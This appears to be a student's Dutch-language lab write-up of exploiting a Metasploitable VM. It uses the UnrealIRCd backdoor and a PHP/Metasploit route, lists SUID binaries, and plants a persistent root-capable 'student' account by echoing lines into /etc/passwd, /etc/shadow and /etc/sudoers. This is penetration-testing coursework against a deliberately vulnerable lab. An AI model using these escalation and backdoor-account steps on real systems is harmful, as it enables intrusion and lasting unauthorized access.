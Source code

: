 ```toc
```
## 2.1 Exploit van de IRC-service

``` bash
nmap -sV -script irc-unrealircd-backdoor -p 6667 10.0.2.5
```

> UnrealIRCd 

> exploit/unix/irc/unreal_ircd_3281_backdoor

> Hieruit is te zien dat we in de Metasploitable CLI zitten omdat het ip van deze vm 10.0.2.5/24 is 
```bash
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 08:00:27:57:26:23 brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.5/24 brd 10.0.2.255 scope global eth0
    inet6 fe80::a00:27ff:fe57:2623/64 scope link 
       valid_lft forever preferred_lft forever
id
uid=0(root) gid=0(root)

```

In de sudoers-file staat:
```bash
# /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# See the man page for details on how to write a sudoers file.
#

Defaults        env_reset

# Uncomment to allow members of group sudo to not need a password
# %sudo ALL=NOPASSWD: ALL

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL
```

> Sudo rechten zijn de admin rechten dit zorgt ervoor dat je alle commands kan gebruiken en kritieke bestanden kan aanpassen

> De root user heeft sudo rechten

```bash
usermod -a -G admin student
```
Dit commando zorgt ervoor dat de student ook sudo rechten krijgt

>  Zelfs na een restart blijven de sudo rechten voor het "student" account

- Output na het gebruiken van de whoami command
```bash
root@metasploitable:/home/student# whoami
root
```

## 2.2 Exploit php

```bash
80/tcp   open  http
| http-php-version: Versions from logo query (less accurate): 5.1.3 - 5.1.6, 5.2.0 - 5.2.17
| Versions from credits query (more accurate): 5.2.3 - 5.2.5, 5.2.6RC3
|_Version from header x-powered-by: PHP/5.2.4-2ubuntu5.10
```
PHP versies:
- 5.1.3 - 5.1.6
- 5.2.0 - 5.2.17
- 5.2.3-5.2.5
- 5.2.6 RC 3
- 5.2.4-ubuntu 5.10
Zijn gevonden

```bash
msf6 > search php
```

> Leidt tot heel veel resultaten, dit is niet te overzien en je hebt er daarom ook geen gebruik aan

```bash
msf6 > search http php Check:yes Rank:excellent Date:2012
```

> Leidt tot minder resultaten, maar de resultaten die we krijgen zijn goed omdat de rank excellent aangeeft dat de exploit goed te gebruiken is.

> Ik ben nu de user www-data , dit is omdat ik via de http een CLI gebruik

> Ik kan nu minder omdat ik geen sudo rechten heb

```bash
find / -perm -u=s 2>/dev/null 
```
> Met dit comando vind je alle gebruikersbestanden
```bash
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
```

>We hebben al eerder nmap gebruikt

> Ik heb nu www-data en root rechten

```bash
/bin/echo 'student:x:1004:1004:,,,:/home/student:/bin/bash' >> /etc/passwd 
/bin/echo 'student:$1$XB/PW7UV$QiAoDdAS2zUzy3JsMOxRb1:19371:0:99999:7:::' >> /etc/shadow 
/bin/echo 'student ALL=(ALL) ALL' >> /etc/sudoers
```

> Met deze commandos hebben we nieuwe gebruikersbestanden aangemaakt voor een gebruiker genaamd student

> Door een account te maken op dezelfde machine en dan te kijken wat voor hash er uitkomt
